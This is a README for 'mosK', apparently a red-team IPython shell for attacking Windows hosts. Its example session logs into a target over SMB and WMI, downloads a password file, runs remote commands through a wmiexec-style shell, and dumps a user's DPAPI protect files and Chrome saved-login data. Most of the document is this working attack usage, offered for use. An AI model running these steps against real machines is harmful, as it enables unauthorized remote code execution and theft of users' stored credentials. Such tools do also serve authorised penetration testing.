 # mosK 🦅
the red team `IPython` shell 🧑‍💻

## installation
```bash
# clone the repo
git clone https://github.com/idobarel/mosK.git && cd mosK
# install requirements
pip3 install -r requirements.txt
# run it using
python3 mosK
```
## why IPython?
It is just better. the fact you can run in a pythonic env allows you to: 
- run more complete logic on you products
- create automation and scripts
- develop more crazy stuff (without breaking you head)
- have it all in one


## usage
as it is for now, there are few utils the `mosK` provides:
### `Target` class:
the target object can be used to access remote computers `SMB` (for file manipulation) or `WMI` (for RCE or WQL).
the target class is easy to use and it is the base for all the other utils.
### `Chrome` class:
allows you to take a target and dump all the chrome `Login Data` files of a specific user.
### `DPAPI` class:
allows you to get all the dpapi protect files of a user, for `home-side` decryption of data.
### `ExecWMI` class:
gives you the features of `impackets wmiexec`!


## example usage
this should cover most of the usage, feel free the explorer throgh the shell!
```python
# target init
target = Target("test:test@192.168.1.13")

# login one by one
target.smb.login()
target.wmi.login()
# OR
# login both at once
target.login_all()


# shares or files manipulation (SMB must be logged in!)
target.smb.list_shares() # get a list of shares
target.smb.use_share("C$") # use the share `C$`
target.smb.list_path("\\Windows\\Temp\\") # to list the C:\Windows\Temp path
target.smb.download_file("\\Admin Folder\\password.txt") # save remote file to `password.txt`
# upload `lol.txt` to remote target
target.smb.upload_file("./lol.txt", "\\Users\\test\\Desktop\\lol.txt")

# RCE + WQL (WMI must be logged in!)
target.wmi.create_process("netstat.exe -an") # run netstat (no output)
target.wmi.query("select name,processid from Win32_Process") # get a tasklist using WQL


# executor (wmiexec)
wmiexec = ExecWMI(target)
wmiexec.shell() # start a shell
wmiexec.execute("whoami") # run a single command (with output)

# dpapi
dpapi = DPAPI(target)
dpapi.get_protect_files("test") # dump all the protect files of `test`

# chrome
chrome = Chrome(target)
chrome.dump("test") # dump all the chrome files of `test`


target # to see the running connections
target.clear() # close the connections
```

To exit the console and close all the connections, you can hit `CTRL+D` 🧮
